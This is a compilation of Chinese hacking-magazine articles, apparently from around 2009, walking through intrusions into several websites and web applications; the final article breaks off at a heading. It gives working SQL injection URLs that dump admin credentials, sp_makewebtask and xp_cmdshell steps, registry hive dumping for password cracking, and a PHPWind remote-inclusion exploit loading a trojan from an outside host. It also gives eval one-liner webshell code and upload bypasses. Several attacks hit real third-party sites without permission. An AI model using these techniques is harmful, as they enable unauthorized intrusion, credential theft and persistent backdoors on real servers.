小菜我好激动啊，立刻备份了个一句话木马写上去。我们已经是 SA 权限了，就直接使用 `sp_makewebtask` 过程，在查询分析器里输入 `exec sp_makewebtask 'd:\web\cetc\x.asp"select"</execute request("value")%>'`，命令成功完成。现在来访问我们的一句话木马，如图11。


接下来就简单了，使用一句话木马客户端进行连接，然后上传一个 `xplog70.dll` 到 C 盘，在查询分析器下执行以下命令：

```sql
exec sp_dropextendedproc 'xp_cmdshell'
exec sp_addextendedproc 'xp_cmdshell','c:\xplog70.dll'
```

命令成功完成，如图12。再来使用 sqltools 执行系统命令，终于可以成功执行了，如图13。接下来就是添加一个用户，利用 3389 成功登录进入系统，如图14。整个入侵过程到此也就结束了。


文章中用到的方法，可能高手们早就会了，但小菜我只是刚会而已，希望那些还不会的朋友通过这篇文章也可以学会。

> （文章中涉及到的 SQL 查询分析器分离版本、hscan1.2、SQLTools，已经收录在了光盘中）

## 跨库查询搞定某中学网站


这天应一位同学的要求，检测了他们学校的网站。打开网站后，随便找了几个链接地址，没有找到注入点，却发现页面链接有些特殊，如图1。使用 `E_ReadNews.asp` 作为关键字在网上搜索，最后确定使用的是 E创政府网站管理系统。


在网上找到了这套程序的源码并下载回来。由于我还是小菜，还不会找漏洞，于是只好去下载默认数据库，可惜网站管理员已经修改了默认数据库，不能下载。

使用啊D扫描出网站后台，尝试了几个弱口令也失败了。在源码里翻了一会儿，发现源码里还有一个 `zongg` 文件夹，在其下又发现一个名为 `ZonGG1.1.0.0.mdb` 的数据库。在网站上打开，发现这是一个广告管理系统，如图2。


看起来这个广告管理系统的数据库是独立的，我马上尝试下载数据库，成功下载。使用数据库浏览器打开后得到管理员用户名为 `admin`，并成功登录后台，但后台可利用点不多。随后尝试该账号密码登录主站，竟然成功登录，如图4。


后台有备份数据库功能，但发现不能修改备份数据库地址。又想在站点配置文件中插入木马，查看源码后发现配置信息写入数据库，而数据库有防下载，也不能利用；又测试上传漏洞也无功而返。

只好退了出来，一下子也不知道该怎么办。但总不至于就这样放弃吧，我就在网站上转悠，发现还有几个子站点，如图5。


打开校友录看了看，不知道使用的是什么系统，找了几个链接也没注入点。看到有注册功能，就注册了个用户进去，终于找到一个注入点，如图6。把地址放到 NBSI 里检测，却猜不出表名，可能表名有些特殊。


先找系统来源。把源代码下载回来再看表名。使用啊D扫出后台，打开后台发现右下方有版权信息，如图7。

原来使用的是 CC 开放式校友录。我马上到网上搜索下载，结果没找到（其实可以找到，只怪我太粗心）。又到官网查看，随后继续扫描，扫到了一个 `FUploadFile` 文件夹，如图8。


以前在下载源码时发现这个文件夹比较特殊，就把它加入了啊D字典。想起该系统是飞腾网站管理系统，于是下载并找到默认数据库，默认路径为 `/data#v390/feitec#data.asa`，直接访问默认数据库，如图9。

默认数据库没有更改，不过库里有防下载表，没法下载。再在网站上测试，随便找了个链接加了个 `'`，出现防注入提示，还把我的 IP 给封了，再想访问网站也不行了，如图10。

非把你拿下来不可！我想了想，刚才在主站后台发现了网站的根目录是 `D:\wz\`，这个文学社的站点又在主站的 `chensheng` 文件夹下，那么它的数据库地址就是 `D:\wz\chensheng\data#v390\feitec#data.asa`。我又有同学录的一个注入点，这样就可以进行跨库查询了。

虽然不能访问它的网页文件，但是却可以访问它的数据库。对于 Access 数据库的跨库查询可以使用 NBSI，如图11。


使用 NBSI 成功跑出了用户名和密码，但是密码是 32 位的 MD5，到 CMD5 网站上查询了一下，果然没有破解出来，这下又返回到起点了。

再静下心来想想，那个跑不出表名的注入点还可以使用。刚才在官网上没有找到同学录的源码，但是看到有很多类似的系统，它们的表名可能一样。于是我到官网下载了一套类似的源码，发现数据库表名是 `class_name`，把它添加到 NBSI 里，又重新检测了一下那个注入点，果然表名相同，成功跑出了账号和密码。

登录进入后台，后台有备份，可以自定义数据库路径，但是却没有上传的地方。想了想主站有上传的地方，于是在主站上传了一个图片木马，得到地址为 `/uploadfile/jpg/2009-11/2009111020579619.jpg`，所以它的绝对路径是 `D:\wz\uploadfile\jpg\2009-11\2009111020579619.jpg`。

同学录站点的绝对路径是 `D:\wz\cs\`，那么在当前数据库路径里填写的图片木马的相对路径也就是 `../uploadfile/jpg/2009-11/2009111020579619.jpg`，`../` 表示当前文件夹的上一级文件夹，如图12。点击“开始备份”，成功备份出了小马，访问小马，熟悉的画面终于出现了，如图13。


最后使用小马传了个大马上去，webshell 终于拿到了。本文并没有什么技术含量，只是因为我的不细心，才导致走了很多弯路。如果在下载源码那些细心一点儿，就不会浪费这么多时间和精力了，所以我们在入侵时一定要有足够的耐心和细心。

> （文章中涉及到的啊D注入工具、辅臣数据库浏览器、NBSI3.0，已经收录在了光盘中）

## 渗透另一种系统密码 HASH 的技巧

作者：李峥 & mickey

在登录了远程主机的 3389 后，我猜好多人都已习惯使用抓取密码 HASH，然后在本地使用彩虹表破解出对方的明文密码，或者是上传一个 winloginhack 来记录 3389 的登录密码。但在我最近的几次渗透中，发现 pwdump、fgdump 这类的工具目前已经不免杀了，而且这类工具都是要注入到 lsass.exe 进程中，遇到 McAfee 这类的杀毒软件，默认是绕不过去的。

而网上放出来的 Winlogin，经过我的测试，发现对 Windows 2008 也是没有效果的。这天在网上浏览 BLOG，看到老外提到了另一种抓取系统密码 hash 的技巧，经过实践，发现可行，在此就分享给大家。

首先使用 administrator 权限登录系统，然后使用 reg 来保存注册表中 HKLM 下的 SECURITY、SAM、SYSTEM，注意这里必须使用 reg 的 save 选项，使用 export 选项是不行的，如图1。


# 一个人的战争

然后把 `sam.hive`、`system.hive`、`security.hive` 下载到本地，打开 CAIN，选择“Decoders”下的“LSA Secrets”，然后点“+”按钮来导入 `system.hive` 和 `security.hive`。在这里一般就能看到管理员的明文密码了，如图3。当然这里的密码有时候也是历史密码，如果我们尝试登录不对，还可以尝试爆破 LM/NTLM hash。


图3

图2

要想破解 LM/NTLM hash，首先选择“Cracker”下的“LM & NTLM Hashes”，然后点击“+”导入 `sam.hive`。注意，由于现在的 Windows 2000 以后都默认使用了 syskey，所以我们还需要导入 `system.hive` 中 syskey 的值，然后就可以使用彩虹表进行破解了，如图4、图5。


图4


图5

这个方法不是对所有 Windows 版本都通用的，比如对 Windows 2000 SP4、Windows XP SP2 就不行，但对于 Windows 2003 和 2008 却是管用的，具体能够工作的系统列表如下：

- Windows 2000 SP4 (admin) = access denied
- Windows XP SP2 (admin) = access denied
- Windows XP SP3 (admin) = access denied
- Windows 2003 R2 SP2 (admin) = works
- Windows Vista SP2 (UAC/admin) = works
- Windows 2008 SP1 (admin) = works
- Windows 7 (UAC/admin) = works

> （文章中涉及到的 CAIN4.9 已经收录在了光盘中）

## 狂挖人民大礼堂漏洞

深冬及夕

### 一、事情起因

小菜我最近爱上了旅游杂志，大学的生活很是空闲，正好下午没有课，为了发挥一下好学生的精神，午后就拿着借书证去图书馆了。面对着图书馆里的大批杂志，我从中挑选了几本关于旅游的，然后就找了一个空位置坐着开始了图书上的旅游，颇有“读一日书，行千里路”的味道。不过小菜我看书一向都是坚持不了多长时间的，于是不知不觉地就去梦周公了，醒来还打了个哈欠，伸个懒腰，真是舒服啊。等到想起了自己所处的位置，才发现旁边都坐满了人，唉，这么神圣的地方，真是太丢人了，还是不看了，就去网吧上网到论坛灌水吧！

到了网吧，我找了个位置坐下后，就找了些旅游方面的论坛看了看，不过也看不出什么值得学习的地方。打开的网页正是某个旅游网，看了看发现是一个 PHP 的站点，直接在这个链接地址的后面添加一个“and 1=2”，提交后返回不正常了，如图1，看来存在经典的注入漏洞啊，小菜我顿时来了精神，来给它检测检测，顺便也巩固一下以前学过的知识！


图1

### 二、开始作战

直接在浏览器地址提交“http://www.******.cn/hotel/hotel-info.php?id=4928 order by 10/*”，返回正常，如图2。把地址中的“order by 10/*”改为“order by 20/*”，提交后还是返回正常；当把“order by 20/*”改为“order by 30/*”时，提交后返回的页面不正常了，如图3。

继续提交，当提交到“http://www.******.cn/hotel/hotel-info.php?id=4928 order by 27/*”时返回正常，提交到 28 时返回不正常，从而确定了字段数是 27。然后我继续提交“http://www.******.cn/hotel/hotel-info.php?id=4928%20and%20 1=2%20union%20select%201,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27%20/*”，爆出了字段的位置，如图4。位置分别是 13，4，15，17，18，19，20，16，24。我们把 4 处改为 `user()`，把 13 处改为 `database()`，把 15 处改为 `version()`，然后再进行提交，就分别得到了数据库的用户名、数据库名、数据库的版本信息，如图5。


图2


图3


图4


图5

可惜数据库名并不是 ROOT 用户。之所以提到 ROOT 用户，是因为这个数据库如果是 ROOT 用户的话，我们就可以通过 `load_file()` 读取网站的信息。假如我们可以使用这个函数，就必须还要知道网站的绝对路径。我开始手工查找后台，这是为了出错能够爆出这个网站的路径，如图6。

通过爆出的路径可以看出服务器使用的是 Windows 系统，IIS 的版本为 7.0，至于数据库应该是使用的 MySQL。这样整个网站的搭建环境就基本上知道了，使用的是 Windows + PHP + MySQL + IIS。估计这是一个在虚拟机上运行的网站，我立刻来到 www.ip138.com 上进行查询，果然不出我所料，使用的是万网的服务器，如图7。


图6


图7

### 三、初战失败

既然我们不是 ROOT 用户，没有办法读文件，那还是老老实实地猜后台和数据库信息，然后再登录后台。先来找找它的后台，如果找不到后台，就算找到了数据库表，猜测出了用户名和密码也没地方使用。好在这个网站的后台并不算难找，直接在网站后面添加一个“/admin/”，后台登录界面就出来了，如图8。


图8

下面就是找数据库了，在浏览器中提交“http://www.*****.cn/hotel/hotel-info.php?id=4928%20and%201=1%20union%20select%201,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27%20from%20admin”……大家注意，我把地址中的“and 1=2”改为“and 1=1”了，这样如果存在 admin 表的话就会返回正常，否则就是异常。但令人可惜的是，这个网站并不存在这个常用的表，我又更换了 manage、manager、account、admin_table、manage_table、administrator、user 等也都失败了，这下子可不好办了！可能有的小菜遇到这种情况就选择放弃了，不过对于我这个在 X 档案中熏陶了这么久的菜鸟来说，还是有解决办法的。

### 四、最后一战

遇到这种情况我们就先来爆它的数据库，然后再爆数据库中的表，再爆列名，最后直接就得到了用户名和密码。来看具体的操作，现在把 4 那个位置改为 `schema_name`，然后在后面加上“from information_schema.SCHEMATA limit 0,1/*”，具体的提交语句就是“http://www.*****.cn/hotel/hotel-info.php?id=4928%20and%201=2%20union%20select%201,2,3,schema_name,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27%20from%20information_schema.SCHEMATA%20limit%200,1/*”，在 4 的那个位置返回了 `information_schema`，如果有这个库就说明我们可以继续跑数据了，如图9。


图9

现在把链接地址后面的“limit 0,1/*”改为“limit 1,1/*”，这样又爆出来了“dmc030415_db”；再改为“limit 2,1/*”时返回了异常，说明库就“dmc030415_db”这一个，这和我们前面使用 `database()` 爆出来的结果是一样的。在实际的操作过程中，大家可以依次增加“limit”后面的数值来爆出所有的库。

接下来我们看看这个库里都有哪些表，把 4 的位置改为 `table_name`，然后在后面加上“from information_schema.tables where TABLE_SCHEMA=0x数据库的16进制 limit 0,1/*”，具体的提交语句就是“http://www.*****.cn/hotel/hotel-info.php?id=4928%20and%201=2%20union%20select%201,2,3,table_name,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27%20from%20information_schema.tables%20where%20TABLE_SCHEMA=0x646D633033303431355F6462%20limit%200,1/*”，其中“0x646D633033303431355F6462”是“dmc030415_db”转换后的十六进制数，我们可以使用小葵的转换工具进行转换，结果如图10所示。

我们已经爆出了一个表，可以看出，这个并不是我们想要的表。这个我们可以根据这个表的意思去判断，一般用户名和密码都存在类似带有 admin 或 system 等字母的表中。要想爆这个数据库中的表，也是通过依次增加上面链接中“limit”后面的“0”来实现的。这个网站中的表非常多，一直把这个链接后面“limit”后面的值增到 57 还有表没爆出来。看看爆出的表已经有：Ain_City、Air_City_bak、Air_Flight、Air_FlightCab、Air_FlightCab_bak、Air_Flight_bak、Air_Ways、Air_Ways_bak、BD_Admin、BD_Admin_bak、BD_log、BD_log_bak、OrderBase、OrderBase_bak、OrderDetail、OrderDetail_bak、QA、QA_bak、SpecailCab、SpecialFlight、SpecialFlight_bak、SpecialPrice、SpecialPrice_bak、SystemInfo、SystemInfo_bak、address_category、address_category_bak、address_list、address_list_bak、admin_action_list、admin_action_list_bak、admin_log、admin_log_bak、advertisement、advertisement_bak、attachment、attachment_bak、bg_admin、bg_admin_bak 等等，后面就不一一列出了。

看了看这些表，哪个才最有可能是存有用户名和密码的表呢？我最先判断的是 BD_Admin 这个表。来爆这个表的字段，把 4 那个位置改为 `COLUMN_NAME`，然后在后面加上“from information_schema.COLUMNS where TABLE_NAME=0x+数据表的16进制”，具体提交就是“http://www.*****.cn/hotel/hotel-info.php?id=4928%20and%201=2%20union%20select%201,2,3,COLUMN_NAME,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27%20from%20information_schema.COLUMNS%20where%20TABLE_NAME=0x42445F41646D696E%20%20limit%200,1/*”。同样是增加“limit”后面的值爆其余的字段。通过爆字段，发现这个表里有 id、Username、Userpass，看着挺像吧，我们再来提交“http://www.*****.cn/hotel/hotel-info.php?id=4928%20and%201=2%20union%20select%201,2,3,Username,5,6,7,8,9,10,11,12,UserPass,14,15,16,17,18,19,20,21,22,23,24,25,26,27%20from%20BD_Admin”，意思就是从 BD_Admin 爆出字段 Username 的 UserPass 的值，爆出的结果如图11所示。


用户名是 wiil，密码是 `e10adc3949ba59abbe56e057f20f883c`，拿着这个密码高高兴兴地到 CMD5 在线查询网站上进行破解，结果却是 123456，没有搞错吧，呵呵，管理员这么好啊！如图12。


但当我拿着密码到后台登录时却提示用户名或密码不正确，我差点从凳子上摔下来。看来不是这个简简单单找出来的后台是假的，就是猜表错了。如果这个后台是假的那得从哪儿找后台啊，我还是往好处想吧，应该是表找错了。既然如此，那我们就继续找表吧！看了看 SystemInfo 这个表，也不正确，唉，看来像的都不是啊，叹气中……

### 五、峰回路转

继续找表，感觉 bg_admin 这个表也比较像，还是和上面的操作步骤差不多，爆字段，然后爆数据，最后得到这个表中存在 Admin、Password。提交“http://www.*****.cn/hotel/hotel-info.php?id=4928%20and%201=2%20union%20select%201,2,3,Admin,5,6,7,8,9,10,11,12,Password,14,15,16,17,18,19,20,21,22,23,24,25,26,27%20from%20bg_admin”，终于得到了想要的数据，居然还是明文密码呢，如图13。重新打开后台进行登录，这下成功了，如图14。

接下来我通过后台的一个上传功能直接上传 PHP 木马，失败了，但上传 ASP 木马却成功了，这样就获得了一个 webshell，发现 C 盘、D 盘等都不能浏览，权限很低，如图15，看来是虚拟机。


就是设置得够安全，呵呵，于是我利用先前传上去的 ASP 木马又上传了一个 PHP 木马，打算看看数据库到底有多少！

在网站目录下很容易就找到了数据库链接文件，如图16，发现数据库并不是和网站在同一个服务器上。成功连接数据库后，如图17所示，一共有 143 个表呢，幸亏没有一个个地猜完，不然真的要累死人了。如果我们权限够高的话，也可以通过数据库进行提权，不过这个是虚拟机，我一向对虚拟机提权比较敏感。再说我又不是为了搞破坏，就没有再继续搞下去，清理战场后给管理员留了个 TXT 就走人了！


这个网站就这样拿下来了，主要的目的是想通过文章让大家学会 PHP 网站的注入方法，注重的是过程，希望大家能够从中学到自己不会的东西！

## 迎新年PHPWind漏洞大观

高考报名正好回家了一趟，好不容易终于可以上网了，结果就看到 Discuz! 出漏洞了，DVBBS 也出漏洞了，甚至连 PHPWind 也出漏洞了，似乎每年的这个时候都会公布出一批新漏洞，是牛人们玩腻了？还是为了迎接新年的到来，特意送给小菜们的新年礼物呢？

漏洞是 80vul 发现的，针对 PHPWind 7.5 有效（貌似小于 7.5 的也都可以），漏洞出在 `apps/groups/index.php` 文件上，这是一个很古老的漏洞了，主要是因为代码使用了全局变量却没有对它进行严格的检查。全局变量，就是能够在整个程序执行的过程中都存在的变量。基于 PHP 的应用程序的主函数一般都会接受用户的输入，然后对输入数据进行处理，再把结果返回给客户端浏览器。为了使 PHP 代码访问用户的输入尽可能地容易，实际上 PHP 是把这些输入数据看作全局变量来处理的。我们来看具体的代码：

```php
<?php
if ($route == "groups") {
    require_once $basePath . '/action/m_groups.php';
} elseif ($route == "group") {
    require_once $basePath . '/action/m_group.php';
} elseif ($route == "galbum") {
    require_once $basePath . '/action/m_galbum.php';
}
?>
```


图1


图2


图3


图4

上面的代码会分别检查变量 `$route` 的值是否为 groups、group、galbum，如果匹配的话，则使用 `require_once` 来包含一个文件，文件名为“`$basePath.'/action/m_galbum.php'`”。从表面上看，这是正确的，但是这段代码却犯了想当然的错误：程序员在编写代码时，他假定变量 `$route` 和 `$basePath` 在没有设置值的时候是空的，却没有想到攻击者可以创建任何全局变量并赋值。通过提交“http://server/apps/groups/index.php?$route=groups&basePath=shell”，我们就完全可以欺骗这段代码，使它相信变量 `$route` 的值是 groups，`$basePath` 的值是 shell 目录，从而执行代码“`require_once $basePath.'/action/m_groups.php';`”，把“shell 目录/action/m_groups.php”这个文件包含进来。

另外，在 `apps/share/index.php` 文件中也出现了同样的漏洞，估计这个程序员在写程序那天脑袋不小心被驴给踢了一脚，同样的错误居然出现了两次。

要想实现本地包含，由于文件名的限制是很不好的，我们就直接来看远程包含吧。要想远程包含，我们就要确保 `allow_url_fopen` 在 PHP 中被激活（默认配置）。

看完了上面的漏洞分析后，我们来看一下如何进行攻击。首先随便找个对外网开了 web 的电脑（当然也可以使用我们自己的虚拟空间），在 web 目录下新建一个文件夹“action”，然后在文件夹下放一个 PHP 木马，命名为 `m_group.php`，要确保一定可以访问到这个文件，并且还可以正确解析。“http://www.lzbk.com.cn/action/m_group.php”就是我的地址。对于这样的地址，`$basePath` 的值就应该是 `http://www.lzbk.com.cn`，这样的话被包含文件的地址就是“http://www.lzbk.com.cn/action/m_group.php”，我们访问看看，如图1。

php 代码被当成 html 了，现在我们就可以构造一个 EXP 了：“apps/groups/index.php?$route=groups&basePath=http://www.lzbk.com.cn”。打开 Google 使用关键字“powered by phpwind v7.5”来搜索一下我们的目标。随便打开一个网站，如图2，这是一个摄影网站，使用上面我们构造的地址来试试，结果如图3所示，这就说明漏洞存在，但是 `allow_url_fopen` 选项被关闭了。再换一个网站试试，这是一个花艺网“http://www.huayi.cc/”，人气还挺旺呢，如图4，使用我们构造的地址“http://www.huayi.cc/apps/groups/index.php?route=groups&basePath=http://www.lzbk.com.cn”来访问一下，结果如图5所示，可以看……

# 一个人的战争

到我们的 PHP 木马已经被执行了，使用密码登录上去，如图6，很不错吧。


图5


图6

这个漏洞非常简单，但是由于包含的原因，PHP 木马在提交时会有一些功能限制，大家可以直接在被包含的文件中写入以下代码：

```php
<?php
$code="<?php @eval($_POST[cmd])?>";
$fp=fopen("shell.php","w");
fwrite($fp,$code);
fclose($fp);
?>
```

利用这段代码可以写一个一句话木马到同目录下的 shell.php 中，然后再使用连接端连接就可以解除上述限制了，如图7、图8。


图7


图8

> （文章中涉及到的 phpspy.php、一句话木马客户端，已经收录在了光盘中）

## PHPCMS2008 最新版本后台拿 webshell

txcbg

在对一个网站进行安全检测时，发现对方使用的程序是 PHPCMS2008，得到管理员的用户名和密码后，成功地登录进入了后台，本以为 webshell 轻松地就可以到手了，可没想到得到 webshell 的过程却是非常的艰难。由于该网站使用的是最新的 SP3 版本，以前公布的一些在后台拿 webshell 的方法都已经不能使用了，我在网上搜索了一下也没有找到什么好方法，看来只能靠自己了。

从 PHPCMS 的官方网站下载了最新版的 phpcms2008sp3_gbk_100125，在虚拟机的 PHP 环境中安装好，然后开始在后台寻找拿 webshell 的方法，工夫不负有心人，经过几个小时的努力后，我终于找出了方法。PHPCMS2008 在我的虚拟机中的访问地址为“http://127.0.0.1/phpcms/”，直接登录进入后台，其后台首页如图1所示。


图1

我先简单地介绍一下以前公布的 PHPCMS 后台拿 webshell 的几个方法，其中一个方法是通过“文件管理器”直接上传 php 木马。点击右上角那个类似地球图标的“后台管理地图”，打开 Phpcms 网站后台导航地图，在这里关于后台的所有管理操作都可以一“点”到达，如图2。点击“文件管理器”，却提示了“出于系统安全考虑，管理员关闭了此功能。如需要打开，请修改配置文件 config.inc.php，把 define('FILE_MANAGER','0') 修改为 define('FILE_MANAGER','1')。”，如图3。在实际的入侵过程中，我们当然没有办法来修改配置文件 config.inc.php，所以通过“文件管理器”直接上传 php 木马的方法就不行了。


图2


图3

还有一种方法是通过执行 SQL 命令导出一个 PHP 一句话木马来得到 webshell。点击 Phpcms 网站后台导航地图中的“执行SQL”，结果提示了“对不起，出于系统安全考虑，管理员关闭了该功能，如需要打开请自行修改 config.inc.php 文件内对应的相关安全配置信息。（将 define('EXECUTION_SQL','0'); 替换为 define('EXECUTION_SQL','1');）...”，又不可以使用，如图4。PhpCMS 在新版本中默认把执行 SQL 功能给关闭了，现在没有了执行 SQL 命令的地方，自然也就谈不上通过执行 SQL 命令来导出 webshell 了。


图4

网上还有一种方法是在允许上传的附件类型中添加 php，然后直接上传 php 文件，我发现 Php 文件确实可以直接传上去，但传上去的文件后缀却被自动改成了 _.php，如图5，而 _.php 后缀的文件是不会被解析执行的，如图6。


图5


图6

下面就来说说我找到的后台拿 webshell 的方法，打开 Phpcms 网站后台导航地图，点击“模板风格”->“Phpcms”->“新建模板”，如图7，新建一个名称为 test，文件名为 test123.html 的模板文件。我发现在“templates\default\phpcms”目录下的 name.inc.php 文件中保存了 Phpcms 的所有模板文件的名字以及模板的名称，如图8。

由于模板的名称没有过滤 php 代码，所以我决定通过修改新建模板的名称在 name.inc.php 文件中插入 php 一句话木马。把新建的模板的名称修改为“eval($_POST[x])”，然后在后台选择“系统设置”->“系统工具”->“木马扫描”->“扫描木马”，保持默认的设置来扫描木马；结果扫描出了 templates/default/phpcms/name.inc.php，如图9。点击“操作”中的“查看”，显示出了 name.inc.php 文件的代码，并且我们也可以直接编辑代码，如图10。


图7


把 name.inc.php 文件中的代码备份到一个文件中，以方便在拿到 webshell 后进行恢复，然后我们删除 name.inc.php 中的所有代码，插入 php 一句话木马的代码“<?php eval($_POST[x]);?>”，点击“修改”按钮后就把 php 一句话木马插入到 name.inc.php 文件中了，使用 lanker 一句话 PHP 后门客户端 3.0 内部版来连接“http://127.0.0.1/phpcms/templates/default/phpcms/name.inc.php”，成功得到了 webshell，如图11。通过这个 webshell 再上传一个功能更强大的 webshell，然后使用备份的 name.inc.php 的代码恢复 name.inc.php，删除新建的模板，后台拿 webshell 的目的就达到了。

通过后台提供的“扫描木马”功能得到 php 木马，这说出来有点讽刺的味道。如果程序能对新建模板的名称过滤一下，就不会这么容易地让人得到 webshell 了。还是老习惯，我把 phpcms2008sp3_gbk_100125 也打包提供给了大家，有兴趣的话可以本机实践一下。我只是找到了一种 PhpCMS2008 最新版本后台拿 webshell 的方法，如果你还有别的更好的方法也欢迎写出来与大家分享哟！

> （文章中涉及到的 phpcms2008sp3_gbk_100125，已经收录在了光盘中）

## PHPMPS 0day：漏洞轻松利用

PHPMPS 是一套基于 PHP+MYSQL 的开源分类信息发布系统，适用于 UNIX、Linux、Windows 等服务器环境，是一个高效、快速的网站解决方案。PHPMPS 简单实用，用户无需注册就可以发布信息，大大提高了发布信息的便利性。这套系统在网上的使用率也是很高的，这次爆出的严重漏洞使得很多网站都受到了连累。

本次漏洞主要是由 PHPMPS 所带的 fckeditor 编辑器引起的，漏洞非常严重，可以让攻击者很容易地直接上传 Webshell 从而拿下网站。我从官方网站（www.phpmps.com）上将 v2.0 正式版 GBK 下载到了虚拟机中并安装好，其首页界面如图1所示。漏洞文件就是“include/fckeditor/editor/filemanager/connectors/test.html”，我们直接在浏览器中打开它，如图2。看到这个界面想必大家心里都乐开了花吧，是的，可以直接通过它来上传 Webshell！


图2

“Connector”是指我们上传的文件类型，包括了常见的 ASP、ASP.NET、PHP、PERL、PYTHON 等脚本。因为这里是 PHP 环境，所以选择 PHP；“Current Folder”是上传保存的位置，可以不做修改。“Resource Type”是指资源类型，这个和文件类型没什么关系，不过它会决定文件的上传目录。点击“浏览”按钮，选择要上传的 PHP 木马，然后点击“Upload”即可。当弹出“File Upload with no errors”（上传文件没有出错）的提示框时，就说明 php 木马已经上传成功了，如图4。文件名字系统是不会更改的。在浏览器中直接打开我们的 PHP 木马，如图5，Webshell 顺利地就拿到了！


图4


图3


图5

木马已经上传成功了，那木马的路径呢？默认路径是“/data/upload”，我们在“Resource Type”选择了 File，那么木马的全路径也就是“/data/upload/File/c2007.php”。

漏洞很严重，利用超简单，三言两语，方法就说完了。官方站点测试后已有修复迹象。

## 小菜菜玩 CityShop V5.5.8 SQL 注入漏洞

在网上看到 My5t3ry 公布了 CityShop V5.5.8 的一个注入漏洞，我下载并在虚拟机中安装测试，利用其方法成功拿到了 Webshell。

漏洞出在 section 目录下的 goods_script.php 文件中，关键代码如下：

```php
require_once("../libs/session.inc.php");
require_once("../libs/include.inc.php");
$conn = DBManager::getconnection();
$thisid = $_GET['goodsid'];
$goodsowner = $_GET['goodsowner'];
```

```php
if($_GET['action']=="hit"){
    if(empty($_COOKIE['goods_'.$thisid])){
        setcookie("goods_".$thisid,"true",time()+$incookie);
        $conn->query("UPDATE $tablepre_goods SET goodshit=goodshit+1 WHERE goodsid='$thisid'");
        $chknum = $conn->query("SELECT goodshit FROM $tablepre_goods WHERE goodsid='$thisid'");
    }
}
```

```php
$num = $chknum->fetch_assoc();
echo "document.write('{$num[goodshit]}');";
```

上面代码中的 `$chknum = $conn->query("SELECT goodshit FROM ".$tablepre."goods WHERE goodsid=".$thisid);` 这句，其中的变量 `$thisid` 没有经过任何过滤就拼入了 SQL，而且也没有使用单引号引起来，因此 gpc 也不再考虑。

以上对于漏洞的简单分析摘自于 My5t3ry 的帖子“CityShop v5.5.8 sql injection 0day&后台获取 webshell 方法”，我是小菜。最关心的自然是如何利用漏洞来拿到 webshell，下面我们就来看这个漏洞的详细利用。

我从网上下载了 CityShop v5.5.8 的源码包，在虚拟机的 PHP 环境下安装好，访问地址为 `http://127.0.0.1/cityshop/`，安装完成后点击给出的登录后台链接却出现了如图1所示的错误提示。


“This file has expired”，我到网上搜索了一下，说是 zend 的版本太低或是设置的日期过期了，调整系统时间就可以解决。我把系统时间调整到 2008 年，问题果然解决了，成功地打开了后台登录页面，如图2。


直接在浏览器中访问 `http://127.0.0.1/cityshop/section/goods_script.php?action=hit&goodsid=-1 union select group_concat(adminname,0x7c,adminpwd) from stu_useradmin%23`，就成功地爆出了管理员的用户名和密码信息，如图3。


用户名和密码的 MD5 值之间使用“|”隔开了，我们把 `e10adc3949ba59abbe56e057f20f883e` 拿到 CMD5 等在线破解网站查询，得到明文密码为 123456。下面就可以登录后台了，CityShop V5.5.8 的默认后台登录地址为 `http://127.0.0.1/cityshop/lovestu_manage/love_login.php`，登录时除了需要用户名和密码外还需要网站密匙，如图4。网站密匙默认为 LOVESTU，它是保存在 `/libs/config.inc.php` 中的，如果修改了的话，MYSQL 权限大点的注入点就可以 load_file 了。


使用破解出来的密码成功登录进入了后台，如图5。接下来就是在后台寻找拿 webshell 的方法了。在“LOVESTUdio 选项”->“广告管理”的“添加广告”中可以上传文件，上传文件时只是在本地对上传文件的后缀使用 javascript 进行了检查，我们可以轻松绕过。具体的操作步骤如下：在“广告管理”中添加一个广告，内容随便填写，“媒体”就随便找一个图片文件，这里我就找了个名为 9.jpg 的图片文件，广告添加成功后就会在广告列表中显示出来，如图6。


最上面那个名为 test 的广告就是我新添加的，下面就是最关键的操作了，在 IE 浏览器的图标上点右键选择“属性”，选择“安全”，把“Internet”的安全级别调整为高，如图7。这样 IE 就不会运行 javascript 了（这里我们是以 IE 浏览器为例的，至于其它的浏览器大家请自己设置）。


图7

图9

点击刚才新添加的 test 广告最右边的“详细/修改”，在打开的页面中的“媒体”中直接选择我们要上传的 PHP 木马，这里我选择的就是名为 9.php 的 C99Shell，点“提交”按钮后提示“广告修改成功”，由于 IE 安全级别的原因，提示页面并没有自动跳转，点击“广告管理”来显示广告列表，发现 PHP 木马已经传上去了，名字为 10_1201448040.jpg_1201449088.php，如图8。


图8

直接点击 PHP 木马文件名，浏览器就会自动打开我们上传的 PHP 木马了“http://127.0.0.1/cityshop/upload/adv/10_1201448040.jpg_1201449088.php”，成功地得到了 webshell，如图9。

我们在 google 中搜索“Powered by LOVESTUdio”，就可以找到可能存在这个漏洞的网站，在破解了爆出的密码后就可以在后台拿 webshell 了。为了方便大家在本地进行测试，我把存在漏洞的 CityShop V5.5.8 的源代码也一并打包提供给大家。（文章中所用到的 citySHOP 城市多用户商城（整合 Discuz! 论坛）v5.5.8 已收录到光盘中）

## FCKeditor 新利用

搞定四套程序


前几天在网上看到了一篇名为“讯时网站管理系统 CMS 4.0 Fckeditor Get Webshell 0day”的文章，文章中介绍了讯时网站管理系统 CMS 4.0 利用 FCKeditor 获得 webshell 的一个新方法，我在网上没有找到讯时网站管理系统 CMS 4.0 的源代码，于是就从站长中国网站下载了最新版本的讯时网站管理系统 CMS v4.1，经过测试，发现 4.1 版本也是可以利用 FCKeditor 获得 webshell 的。我又找了几套使用 FCKeditor 编辑器的程序，发现也都可以利用那篇文章中的方法成功拿到 webshell。一晚上的功夫，我就在站长中国网站提供下载的源代码中发现了四套程序存在这个漏洞，似乎目前使用 FCKeditor 编辑器的 ASP 程序几乎都可以利用这个漏洞拿到 webshell 的。

FCKeditor 的这个利用方法到底是什么呢？既然是新利用，自然就不是以前的直接上传 .asp 木马和建立 123.asp 形式的文件夹然后上传 jpg 格式的 ASP 木马，下面我就给大家介绍这四款存在漏洞的程序并详细地介绍一下如何通过 FCKeditor 拿到 webshell。为了方便测试，下文中的所有操作都是在虚拟机的 Windows2003 系统下完成的，每测试完一套程序后我都把网站目录下的文件清空以测试另外的程序。

### 一、讯时网站管理系统 CMS v4.1

